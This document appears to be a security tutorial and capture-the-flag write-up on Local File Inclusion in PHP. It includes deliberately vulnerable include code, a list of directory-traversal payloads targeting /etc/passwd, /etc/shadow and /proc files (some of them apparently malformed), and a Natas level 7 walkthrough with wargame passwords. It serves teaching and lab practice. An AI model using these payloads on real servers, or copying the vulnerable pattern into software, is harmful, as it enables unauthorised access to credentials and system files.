 # Local File Inclusion

### OWASP :
 Local File Inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

### Local file inclusion in PHP:

Consider an example as follows where we can apply this attack.
http://victim_site/abc.php?file=userinput.txt
The value of “file” parameter is taken into the following PHP code, and the file is included:
```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
?>
```
An attacker may give malicious input for the "file" parameter which may give unauthorized files in that directory, he can also change the directories by using characters like "../".He can access the user credentials by giving input as "../../../../etc/passwd".In some cases where the file extension is added by default, we can avoid it by adding null byte terminator " %00".Any character after this special character will be ignored.

Suppose that the input given is taken by the following code and the default extension being set is “.php”.
```php
<?php
“include/”.include($_GET[‘testfile’].”.php”);
?>
```

by giving file=../../../../etc/passwd%00 we can access the file by passing the ".php" extension.

## Impact
A successful LFI may result in compromise of the system ,data leakage etc.The attacker can read,write,download files and can also run arbitary codes with privileges of web server

## Explore it yourself
Make a php file with the code given above and explore different possibilities of the vulnerability.
### Somepayloads :
- ../../../../etc/passwd/etc/issue
- ../../../../etc/passwd
- ../../../../etc/passwd/etc/shadow
- ../../../../etc/passwd/etc/group
- ../../../../etc/passwd/etc/hosts
- ../../../../etc/passwd/etc/motd
- ../../../../etc/passwd/etc/mysql/my.cnf
- ../../../../proc/self/environ
- ../../../../proc/version
- ../../../../proc/cmdline
- ../../../../proc/sched_debug
- ../../../../proc/mounts
- ../../../../proc/net/arp
- ../../../../proc/net/route
- ../../../../proc/net/tcp
- ../../../../proc/net/udp

# Let's try a challenge  
 NATAS 7 :
  - USERNAME : natas7
  - PASSWORD : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
  ![natas7](natas7.1.png)

The site is very simple only with two buttons, but once when you click on Home or About the URL changes as follows :

  ![natas7](natas7.2.png)</br>
  ![natas7](natas7.3.png)
 
 It looks like the PHP file is including the file given as page, when we check the source code we get the hint as  
 hint: password for webuser natas8 is in /etc/natas_webpass/</br></br>
  ![natas7](natas7.4.png)
  
  So, let's try to include that file in the URL 
 URL : index.php?page=/etc/natas_webpass/natas8
On including this file we get the password for the next level on the screen </br></br>
password : DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe</br></br>
![natas7](natas7.5.png)
</br></br>
This is a basic example of Local file inclusion vulnerability.


